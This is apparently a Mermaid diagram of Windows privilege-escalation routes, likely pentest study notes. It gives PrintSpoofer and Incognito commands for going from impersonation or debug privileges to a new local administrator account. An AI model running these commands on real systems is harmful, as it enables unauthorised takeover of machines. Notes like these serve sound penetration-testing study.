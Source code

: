 graph TD
    a(Windows Privs)

    b(SeImpersonatePrivilege) --> |PrintsSpoofer.exe <br/> `PrintSpoofer.exe -i -c cmd`| c(Administraitor Own)
    b --> d(SeDebugPrivilege) --> |Incognito.exe <br/> `incognito.exe add_user <username> <pass> <br/> incognito.exe add_localgroup_user Administrators <username>`| c